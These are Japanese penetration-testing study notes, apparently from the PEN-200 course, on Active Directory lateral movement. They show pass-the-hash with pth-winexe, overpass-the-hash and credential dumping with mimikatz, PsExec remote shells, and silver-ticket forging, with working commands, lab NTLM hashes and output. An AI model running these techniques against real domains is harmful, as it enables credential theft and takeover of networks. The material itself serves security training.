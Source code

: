 ### Pass the Hash

* Kerberos 認証では動作せず、NTLM 認証を用いたサーバやサービスでのみ動作する

* ファイアウォールを介したSMB接続（通常はポート445）と、Windowsのファイルおよびプリント共有機能が有効であることが必要

* (Metasploit, 2017), https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/ [↩︎](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-lateral-movement/pass-the-hash#fnref1)

  (@byt3bl33d3r, 2015), https://github.com/byt3bl33d3r/pth-toolkit [↩︎](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-lateral-movement/pass-the-hash#fnref2)

  (Core Security, 2017), https://github.com/CoreSecurity/impacket/blob/master/examples/smbclient.py 

* #### pth-winexe(kaliから横展開)

  ```bash
  └─$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.151.1   
  E_md4hash wrapper called.
  HASH PASS: Substituting user supplied NTLM HASH...
  Microsoft Windows [Version 10.0.16299.15]
  (c) 2017 Microsoft Corporation. All rights reserved.
  
  C:\Windows\system32>whoami
  whoami
  client251\administrator
  ```

  https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee

  ※Active Directoryのドメインアカウントと組み込みのローカル管理者アカウントに有効です。2014年のセキュリティアップデート7以降、この手法は他のローカル管理者アカウントとして認証するために使用することはできない





### Overthehash

NTLM ハッシュを Kerberos チケットに変換し、NTLM 認証を使用しないようにしてTGTやTGSを取得する

* キャッシュにクレデンシャルを残す

  * mimikatzを起動しておく

  * notepadを起動しキャッシュを残したいユーザで実行する

    * notepadをoffsecで普通に開く

    * 上の画像のようにピンバーを右クリックし、Notepadをshift+右クリックで選択し「Run as a different User」を選択し

      ```
      corp\jeff_admin
      lab
      ```

      でnotepadを開く

    * mimikatzでクレデンシャルをダンプする

      ```
      sekurlsa::logonpasswords
      ```

* mimikatzでover the hashする

  powershellを起動する

  ```
  sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe
  ```

* Kerberosチケットを確認する（この時点ではなし）

  ```powershell
  PS C:\Windows\system32> klist
  Current LogonId is 0:0x186536
  Cached Tickets: (0)
  ```

* ドメインコントローラ上のネットワーク共有に接続してTGTを生成する

  （TGTを生成するコマンドであれば任意だが、ここではネットワーク共有への接続を紹介していた）

  ```
  net use \\dc01
  klist
  ```

  TGTとTGSが登録される

* PsExecで横展開する

  ※PsExecはリモートでコマンドを実行できるが、パスワードハッシュを受け入れない

  ```powershell
  .\PsExec.exe \\dc01 cmd.exe
  ipconfig
  whoami
  ```


※Over the HashもAdmin$という特別な管理者共有へのアクセスが必要なため、ターゲットマシンのローカル管理者権限が必要となる



### Pass the Ticket

TGT は作成されたマシンでしか使用できないが、TGS はネットワーク上の他の場所にエクスポートして再投入し、特定のサービスへの認証に使用することができる

サービスアカウントのパスワードを利用してサービスチケットを偽造する→シルバーチケット

サービスプリンシパル名が複数のサーバで使用されている場合、シルバーチケットはそれら全てに対して活用することが可能

#### SID構造

```
S-R-I-S
```

R：リビジョンレベル（通常 "1 "に設定）

I：識別子-権限値（AD内では "5 "が多い）

S：サブ権限値

```
S-1-5-21-2536614405-3629634762-1218571035-1116
```

サブ権限の値は

* ドメインの数値識別子：21-2536614405-3629634762-1218571035
* ドメイン内の特定のオブジェクトを表す相対識別子：1116

に分かれる

#### SIDの取得

```cmd
whoami /user

---
C:\Windows\system32>whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-4038953314-3014849035-1274281563-1103
```

#### サービスアカウントのパスワードハッシュの取得

シルバーチケットに必要となる。kerberousでiis_serverのパスワードは取得済の前提

```cmd
kerberos::hash /user:iis_service /domain:corp.com /password:Qwerty09!

----
mimikatz # kerberos::hash /user:iis_service /domain:corp.com /password:Qwerty09!
        * rc4_hmac_nt       e2b475c11da2a0748290d87aa966c327
        * aes128_hmac       7eabd29e56e7e8a31b1c180b88e7b801
        * aes256_hmac 
```

#### シルバーチケットの取得

```cmd
# チケットを一度削除
kerberos::purge
kerberos::list

kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:e2b475c11da2a0748290d87aa966c327 /ptt
```

* `kerberos::golden`：名前がゴールドだがシルバー
* /sid：ユーザのSID
* /target：サービスの完全修飾ホスト名
* /service：サービスタイプ
* /rc4：is_serviceサービスアカウントのパスワードハッシュ



